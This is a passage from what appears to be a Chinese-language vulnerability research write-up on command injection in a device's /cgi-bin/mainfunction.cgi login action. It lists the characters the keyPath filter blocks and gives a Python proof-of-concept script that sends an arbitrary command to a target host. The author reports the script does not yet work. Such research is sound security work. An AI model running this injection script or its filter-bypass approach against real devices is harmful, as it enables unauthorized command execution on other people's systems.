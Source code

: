 ![](https://bbs.kanxue.com/upload/attach/202408/995344_5BRZSQHP45UGHKC.webp)

![](https://bbs.kanxue.com/upload/attach/202408/995344_DN2GQM67R5KC4V2.webp)

会不会刚才 data 段里的内容就是字符串 action 及其对应的调用函数？

我们搜一个刚才看到的 action 的具体值：

![](https://bbs.kanxue.com/upload/attach/202408/995344_PE2FDT4QYZB7N75.webp)

果然就是在刚才那一段部分！也就是说推测是正确的。也就是说我们的 poc 可以构造 action=login。我们可以点击左边栏目查看（这个功能太强了）发现有 action=login 的，结果发现里面的参数和我们刚才分析的一模一样，只是多了一些别的参数。那些参数其实就在我们分析的函数下方，不过我们就不进一步分析了。

![](https://bbs.kanxue.com/upload/attach/202408/995344_58HDQB7JQ98P552.webp)

综上，我们分析得出：

1.  POST 请求
2.  /cgi-bin/mainfunction.cgi 在目的 ip 后面
3.  action=login
4.  keyPath 不得出现以上字符（` | ; ? 空格 $(不可同时出现 ）。keyPath 是命令。
5.  keyPath、loginUser、loginPwd 都要赋值。
6.  keyPath 前后都要想办法分割。

我们写了个脚本，发现没法做到执行命令。为此我们打算执行动态分析也就是调试。

```
import argparse
import requests
 
def system(host,cmd):
    try:
        print("[*] Start to execute command: " + cmd + " on " + host)
        headers = {
            "HOST":"10.10.10.2",
            "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36",
            "Content-Type": "text/plain; charset=UTF-8",
            "Accept": "*/*",
            }
        url = host + "/cgi-bin/mainfunction.cgi"
        data = f"action=login&keyPath={cmd}&loginUser=N1nEmAn&loginPwd=Hack&formcaptcha=YnVrZHg=&rtick=1722512530770"
        print("[*] Sending:",data)
        res = requests.post(url=url, data=data,headers=headers)
        if res.status_code == 200 and res.text != "":
            print("[+] Command executed successfully")
            print("[+] Result: " + res.text)
            return res.text
        else:
            print('[-] Command execute failed! Nothing...')
            return 1
    except:
        print('[-] Command execute failed!')
 
 
if __name__ == "__main__":
    # 获取第一个参数作为目标地址，第二个命令行参数作为命令
    parser = argparse.ArgumentParser()
    parser.add_argument("host", help="target host")
    parser.add_argument("cmd", help="command to execute")
    args = parser.parse_args()
    system(args.host, "ls")

```
